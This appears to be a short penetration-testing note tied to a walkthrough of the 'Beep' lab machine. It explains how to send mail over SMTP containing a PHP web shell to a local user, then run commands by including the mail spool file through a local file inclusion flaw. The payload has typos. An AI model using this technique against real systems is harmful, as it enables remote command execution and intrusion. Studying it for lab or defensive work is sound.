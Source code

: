 # Background
- Requirement to exploit this service is to have an associated web application on the same box that is vulnerable to an LFI that displays mail from users in the web application.

# Exploit (ippsec:Beep)
1. Access the SMTP server.
```
telnet [IP] 25
```
2. Confirm that an assumed user is on the box.  This is the user we'll send an email to to exploit the LFI in the web application.
```
VRF [user]@localhost
```
3. Create a new mail to the confirmed user on the box.
```
Mail from:email@doesn'tmatter.com 
Rcpt to: [user]@localhost 
Data 
Subject: Doesn't Matter 
<? php echo system($REQUEST['neogeo']); ?> 
```
4. Go to the web application and abuse the LFI vulnerability to navigate to the file location where our mail was sent and stored to execute the PHP script.
```
.../var/mail/[user]
```
5. If we're able to navigate here with our LFI, then we have command execution through the 'neogeo' variable.
```
.../var/mail/[user]&neogeo=[command]
```

